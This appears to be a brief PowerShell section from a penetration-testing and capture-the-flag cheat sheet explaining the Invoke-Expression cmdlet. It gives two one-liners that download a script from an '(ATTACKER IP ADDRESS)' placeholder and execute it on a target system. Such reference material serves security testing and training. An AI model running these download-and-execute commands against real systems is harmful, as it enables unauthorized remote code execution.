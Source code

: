 # PowerShell
This new section is for all Microsoft Powershell-based techniques and syntax used during penetration testing and capture the flag.
## Invoke Expression
The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without Invoke-Expression, a string submitted at the command line would be returned (echoed) unchanged.
```
PS C:\Target-System> IEX(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
OR
```
PS C:\Target-System> Invoke-Expression(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
